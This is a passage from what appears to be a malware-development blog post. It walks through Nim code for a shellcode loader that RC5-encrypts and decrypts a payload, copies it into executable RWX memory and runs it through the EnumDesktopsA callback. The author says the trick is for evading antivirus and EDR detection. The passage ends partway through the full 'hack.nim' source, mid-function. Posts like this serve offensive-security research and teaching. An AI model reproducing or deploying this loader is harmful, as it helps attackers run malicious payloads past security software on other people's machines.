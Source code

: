 ```nim
for i in countup(0, paddedSize - 1, 8):
  var chunk: array[2, uint32]
  copyMem(addr chunk, addr paddedData[i], sizeof(chunk))
  encrypt(box, chunk)
  copyMem(addr encrypted[i], addr chunk, sizeof(chunk))
  decrypt(box, chunk)
  copyMem(addr decrypted[i], addr chunk, sizeof(chunk))
```

And the last step is executing payload via EnumDesktopsA. This is the fun part. We allocate `RWX` memory, copy decrypted payload, and call it by casting it to a WinAPI callback type:    

```nim
let mem = VirtualAlloc(NULL, cast[SIZE_T](data.len), MEM_COMMIT, PAGE_EXECUTE_READWRITE)
RtlMoveMemory(mem, unsafeAddr decrypted[0], cast[SIZE_T](data.len))
let shellcodeProc = cast[DESKTOPENUMPROCA](mem)
discard EnumDesktopsA(GetProcessWindowStation(), shellcodeProc, 0)
```

This old technique is great for bypassing naive `AV/EDR` static detection. EnumDesktopsA expects a callback function - and we provide it a pointer to our payload instead. =^..^=    

So full source code in Nim language is looks like this `hack.nim`:    

```nim
# hack.nim
# encrypt/decrypt payload via
# RC5 cipher
# author: @cocomelonc
# https://cocomelonc.github.io/malware/2025/04/02/malware-cryptography-40.html
import winim
import strformat

type
  DESKTOPENUMPROCA = proc(lpszDesktop: LPSTR, lParam: LPARAM): WINBOOL {.stdcall.}

proc shiftLeft(v: uint32, n: uint32): uint32 = v shl n
proc shiftRight(v: uint32, n: uint32): uint32 = v shr n

proc rotateLeft(v: uint32, n: uint32): uint32 =
  let n1 = n and 0x1f'u32
  shiftLeft(v, n1) or shiftRight(v, 32 - n1)

proc rotateRight(v: uint32, n: uint32): uint32 =
  let n1 = n and 0x1f'u32
  shiftRight(v, n1) or shiftLeft(v, 32 - n1)

proc expandKey(L: var array[4, uint32], S: var array[26, uint32]) =
  var A, B: uint32 = 0
  var i, j: int = 0
  S[0] = 0xb7e15163'u32
  for k in 1 .. 25:
    S[k] = S[k - 1] + 0x9e3779b9'u32
  for _ in 0 ..< 3 * 26:
    A = rotateLeft(S[i] + A + B, 3)
    S[i] = A
    B = rotateLeft(L[j] + A + B, A + B)
    L[j] = B
    i = (i + 1) mod 26
    j = (j + 1) mod 4

proc encrypt(S: array[26, uint32], inout: var array[2, uint32]) =
  var A = inout[0]
  var B = inout[1]
  A += S[0]
  B += S[1]
```